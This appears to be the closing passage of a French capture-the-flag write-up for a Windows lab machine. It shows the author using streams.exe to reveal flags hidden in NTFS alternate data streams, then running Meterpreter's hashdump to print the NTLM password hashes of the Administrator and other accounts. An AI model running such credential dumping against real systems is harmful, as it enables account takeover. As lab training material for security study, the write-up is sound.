 ```plain
 Directory of C:\Documents and Settings\Administrator\Desktop\flags

10/05/2018  10:10 ��    <DIR>          .
10/05/2018  10:10 ��    <DIR>          ..
10/05/2018  10:09 ��                76 2 for the price of 1!.txt
               1 File(s)             76 bytes
               2 Dir(s)   6.755.971.072 bytes free

C:\Documents and Settings\Administrator\Desktop\flags>type "2 for the price of 1!.txt"
type "2 for the price of 1!.txt"
For limited time only!

Keep an eye on our ADS for new offers & discounts!

C:\Documents and Settings\Administrator\Desktop\flags>c:\windows\temp\streams.exe -accepteula -s
c:\windows\temp\streams.exe -accepteula -s

streams v1.60 - Reveal NTFS alternate streams.
Copyright (C) 2005-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Documents and Settings\Administrator\Desktop\flags\2 for the price of 1!.txt:
   :root_txt_3316ffe05fada8f8e651931a5c45edab:$DATA 5
   :user_txt_a6a4830ddd27a1bddd59d2aaa80f7940:$DATA 5
```

Il aura bien sûr fallut uploader au préalable l'utilitaire *streams.exe* pour afficher les deux flags :)  

Et juste pour le plaisir :  

```plain
meterpreter > run hashdump

[!] Meterpreter scripts are deprecated. Try post/windows/gather/smart_hashdump.
[!] Example: run post/windows/gather/smart_hashdump OPTION=value [...]
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 9909bedec93bff00d9b205b93de31b23...
/usr/share/metasploit-framework/lib/rex/script/base.rb:134: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
/usr/share/metasploit-framework/lib/rex/script/base.rb:268: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:272: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:279: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:6cae09c57777b136ed4a95a4bc732c2b:d61cd4a1818f9bb9325441cce8278163:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:40a3676535ccf1824fd6840439038a7c:34b7ee8bb3e302babd6770f2089cb8ed:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:4eeeedd989fd7a573c93050af7af2c8a:::
```
